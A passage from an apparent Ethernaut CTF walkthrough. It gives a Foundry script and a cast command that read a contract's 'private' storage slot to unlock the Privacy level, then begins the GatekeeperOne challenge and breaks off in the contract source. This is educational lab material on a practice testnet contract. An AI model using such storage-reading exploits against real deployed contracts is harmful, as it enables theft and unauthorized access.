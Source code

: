 Reading the data from storage using cast - foundry
```terminal
cast storage /*Place instance address here*/ 5 --rpc-url $SEPOLIA_RPC_URL
``` 

**Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import { Privacy } from "../src/Privacy.sol";
import { Script } from "forge-std/Script.sol";
import "forge-std/console.sol";

contract PrivacySolution is Script{
    Privacy privacyInstance = Privacy(0x3F8F66bF12cb8f2fB2a8ECB82BB3d12195f447F9);

    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Locked status before unlock: ", privacyInstance.locked());
        privacyInstance.unlock(0x5e890ce38f2645794e5eaf9b8301ce36);
        console.log("Locked status after unlock: ", privacyInstance.locked());
        vm.stopBroadcast();
    }
}

// await web3.eth.getStorageAt(instance, 5) 
// '0x5e890ce38f2645794e5eaf9b8301ce36ab58af4144ff4bb5661a26c4b58ee43b'
// bytes16(0x5e890ce38f2645794e5eaf9b8301ce36ab58af4144ff4bb5661a26c4b58ee43b) = 0x5e890ce38f2645794e5eaf9b8301ce36
```
**TIP : Hash the sensitive data before storing them on chain**

---

# #GateKeeperOne 

**Challenge :** I need to become an **entrant** in this contract , but for that I should to pass three gates ( Modifiers )

**Contract** 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
```